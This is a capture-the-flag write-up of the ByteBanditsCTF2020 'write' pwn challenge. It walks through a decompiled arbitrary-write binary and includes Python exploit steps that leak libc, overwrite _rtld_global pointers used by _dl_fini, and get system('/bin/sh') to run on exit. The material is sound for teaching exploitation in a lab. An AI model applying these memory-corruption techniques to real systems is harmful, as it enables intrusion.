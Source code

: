 ## write
### Description

> You can write, what can you byte.
>
> nc pwn.byteband.it 9000


### Attachment

[write](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/ByteBanditsCTF2020/pwn/write/write)

### Analysis

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp){
  // ...
  printf("puts: %p\n", &puts, argv);
  printf("stack: %p\n", &v4);
  while ( 1 ){
    puts("===Menu===");
    puts("(w)rite");
    puts("(q)uit");
    fgets(&s, 2, stdin);
    if ( s == 'q' )
      break;
    if ( s == 'w' ){
      printf("ptr: ", 2LL);
      __isoc99_scanf("%lu", &v3);
      printf("val: ");
      __isoc99_scanf("%lu", &v4);
      *v3 = v4;
    }
  }
  exit(0);
}
```

* address of `libc` and `stack` were given  
* choose `w` to overwrite any memory with any values (unlimited times)
* choose `q` to call `exit(0)`

### Solution

#### calc base address of libc

```python
ru('puts: ')
puts = eval(rc(14))
ru('stack: ')
stack = eval(rc(14))
libcbase = puts - libc.sym['puts']
info_addr('libcbase',libcbase)
```

#### overwrite ptr in `_dl_fini`

there are 2 pointer used in `_dl_fini+98` and `_dl_fini+105`

> the program will execute to `_dl_fini` after `exit` called

![](http://image.taqini.space/img/20200414014802.png)

all of them are in `_rtld_golbal` :

```python
ptr = libcbase+0x619f60 #0x239f68
info_addr('ptr',ptr)
system = libcbase+libc.sym['system']
info_addr('system',system)
rdi = libcbase+0x619968 #0x239968
info_addr('rdi',rdi)
```

overwrite `_rtld_golbal+2312` with `/bin/sh` and overwrite `_rtld_golbal+3834` with address of `system`:

```python
sl('w')
sl(str(ptr))
sl(str(system))

sl('w')
sl(str(rdi))
sl(str(u64('/bin/sh\0')))
```

### getshell

`system("/bin/sh")` will be executed after after call `exit` 

```python
sl('q')
```

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/ByteBanditsCTF2020/pwn/write) 